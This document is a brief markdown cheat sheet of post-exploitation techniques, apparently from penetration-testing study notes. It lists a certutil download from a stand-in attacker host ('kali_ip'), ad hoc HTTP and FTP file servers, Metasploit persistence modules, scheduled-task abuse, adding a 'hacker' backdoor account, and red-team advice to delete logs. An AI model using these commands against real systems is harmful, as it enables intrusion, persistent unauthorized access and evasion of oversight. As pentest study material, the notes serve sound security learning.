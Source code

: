 ```yaml
---
description: You landed yourself on a box, now what?
---
```


# Post Exploitation

## File Transfers Review

### Certutil (Windows)

<mark style="color:yellow;">`certutil.exe -urlcache -f http://kali_ip/file.txt file.txt`</mark>

### HTTP Server

<mark style="color:yellow;">`python3 -m http.server <port>`</mark>

### Browser

* Navigate directly to the file

### FTP

Kali: <mark style="color:yellow;">`python -m pyftpdlib 21`</mark>

Windows or Linux: <mark style="color:yellow;">`ftp kali_ip`</mark>

### Additional Linux Exclusives

* Upon hosting an HTTP server, an attacker could utilize <mark style="color:yellow;">`wget`</mark> and <mark style="color:yellow;">`curl`</mark> to remotely grab a file

## Maintaining Access

### Persistence Scripts

* Run persistence -h
* <mark style="color:yellow;">exploit/windows/local/persistence</mark>
* <mark style="color:yellow;">exploit/windows/local/registry\_persistence</mark>

These Metasploit scripts are very dangerous as they tend to open up ports.&#x20;

Simply remember that open ports have no authentication mechanism.

### Scheduled Tasks

* Run scheduleme
* Run schtaskabuse

Instead consider running malware on by scheduling tasks.

### Add a user

* <mark style="color:yellow;">`net user hacker password123 /add`</mark>

## Cleaning up

* This is from a pentest perspective
* The goal is to leave the network exactly as you left it
* Remove executables, scripts, and added files
* Remove malware, rootkits, and added user accounts
* Set settings back to original configurations

### Red Team Perspective

* Delete your logs
* You need to be a ghost
* Exist in the shadows
